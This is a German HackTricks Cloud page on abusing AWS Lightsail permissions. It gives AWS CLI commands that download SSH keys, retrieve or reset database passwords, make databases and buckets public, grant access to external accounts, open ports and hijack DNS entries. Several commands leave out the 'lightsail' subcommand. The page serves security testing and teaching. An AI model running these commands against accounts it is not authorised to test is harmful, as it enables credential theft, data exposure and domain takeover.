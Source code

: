 # AWS - Lightsail Privilege Escalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## Lightsail

Für weitere Informationen zu Lightsail siehe:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Es ist wichtig zu beachten, dass Lightsail **keine IAM-Rollen des Benutzers** verwendet, sondern einem von AWS verwalteten Konto zugeordnet ist. Daher können Sie diesen Dienst nicht zum Privilege Escalation missbrauchen. Es könnten jedoch **sensible Daten** wie Code, API-Schlüssel und Datenbankinformationen in diesem Dienst gefunden werden.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Diese Berechtigung ermöglicht es Ihnen, die SSH-Schlüssel zum Zugriff auf die Instanzen zu erhalten:
```
aws lightsail download-default-key-pair
```
**Potenzielle Auswirkungen:** Finden sensibler Informationen innerhalb der Instanzen.

### `lightsail:GetInstanceAccessDetails`

Diese Berechtigung ermöglicht es Ihnen, SSH-Schlüssel zu generieren, um auf die Instanzen zuzugreifen:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potenzielle Auswirkungen:** Sensible Informationen innerhalb der Instanzen finden.

### `lightsail:CreateBucketAccessKey`

Diese Berechtigung ermöglicht es Ihnen, einen Schlüssel zum Zugriff auf den Bucket zu erhalten:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potenzielle Auswirkungen:** Finde sensible Informationen innerhalb des Buckets.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Diese Berechtigung ermöglicht es Ihnen, die Anmeldeinformationen zum Zugriff auf die Datenbank abzurufen:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potenzielle Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:UpdateRelationalDatabase`

Diese Berechtigung ermöglicht es Ihnen, das Passwort zum Zugriff auf die Datenbank zu ändern:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Wenn die Datenbank nicht öffentlich ist, könnten Sie sie auch mit diesen Berechtigungen öffentlich machen:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potenzielle Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:OpenInstancePublicPorts`

Diese Berechtigung ermöglicht das Öffnen von Ports für das Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Ports.

### `lightsail:PutInstancePublicPorts`

Diese Berechtigung ermöglicht das Öffnen von Ports für das Internet. Beachten Sie, dass der Aufruf jeden nicht spezifizierten geöffneten Port schließt.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Ports.

### `lightsail:SetResourceAccessForBucket`

Diese Berechtigungen ermöglichen es, einer Instanz Zugriff auf einen Bucket ohne zusätzliche Anmeldeinformationen zu gewähren

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potenzielle Auswirkungen:** Möglicher neuer Zugriff auf Eimer mit sensiblen Informationen.

### `lightsail:UpdateBucket`

Mit dieser Berechtigung könnte ein Angreifer seinem eigenen AWS-Konto Lesezugriff auf Eimer gewähren oder die Eimer sogar für alle öffentlich machen:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potenzielle Auswirkungen:** Potenzieller neuer Zugriff auf Buckets mit sensiblen Informationen.

### `lightsail:UpdateContainerService`

Mit diesen Berechtigungen könnte ein Angreifer Zugriff auf private ECRs vom Containerdienst gewähren.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potenzielle Auswirkungen:** Erhalten sensibler Informationen aus privatem ECR

### `lightsail:CreateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte eine Subdomain erstellen und sie auf seine eigene IP-Adresse umleiten (Subdomain-Übernahme), oder einen SPF-Eintrag erstellen, der es ihm ermöglicht, E-Mails von der Domain zu fälschen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenzielle Auswirkung:** Übernahme einer Domain

### `lightsail:UpdateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte eine Subdomain erstellen und sie auf seine eigene IP-Adresse umleiten (Subdomain-Übernahme), oder einen SPF-Eintrag erstellen, der es ihm ermöglicht, E-Mails von der Domain zu fälschen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenzielle Auswirkungen:** Übernahme einer Domain

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>
